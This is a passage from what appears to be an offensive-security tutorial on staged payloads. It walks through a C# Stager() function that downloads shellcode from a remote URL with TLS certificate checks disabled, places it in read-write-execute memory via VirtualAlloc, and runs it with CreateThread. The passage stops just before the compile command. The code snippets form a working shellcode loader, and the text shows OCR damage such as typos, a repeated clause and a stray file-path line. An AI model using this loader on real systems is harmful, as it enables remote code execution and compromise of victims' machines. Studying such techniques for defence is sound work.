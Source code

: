 most significant part of our code will be in the Stager() function, where the stager logic will be implemented. The stager function will receive a URL from where the shellcode to be executed will be downloaded.

The fir part of the Stager() function will create a new WebClient() object that allows us to download the shellcode using web rewuests. before making the actual request we will overwrite the ServerCertificateValidationCallback method in charge of validating SSL certificates when using HTTPS requests so that the WebClient doesnt complain about self-signed or invalid certificates when using HTTPS requests so that WebClient doesnt complain about self-signed or invalid certificates, which we will be using in the web server hosting the payloads. After that, we will call the DownloadData() method to

download the shellcode from the given URL and store it into the `shellcode` variable:

```csharp
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Once our shellcode is downloaded and available in the `shellcode` variable, we'll need to copy it into executable memory before actually running it. We use `VirtualAlloc()` to request a memory block from the operating system. Notice that we request enough memory to allocate `shellcode.Length` bytes, and set the `PAGE_EXECUTE_READWRITE` flag, making the assigned memory executable, readable and writable. Once our executable memory block is reserved and assigned to the `codeAddr` variable, we use `Marshal.Copy()` to copy the contents of the `shellcode` variable in the `codeAddr` variable.

```csharp
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the `CreateThread()` function to spawn a new thread on the current process that will execute our shellcode. The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode as if it were a regular function. The fifth parameter is set to 0, meaning the thread will start immediately.

Once the thread has been created, we will call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute:

```csharp
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

To compile the code, we suggest copying it into a Windows machine as a file called staged-payload.cs and compiling it with the following command:  

PowerShell

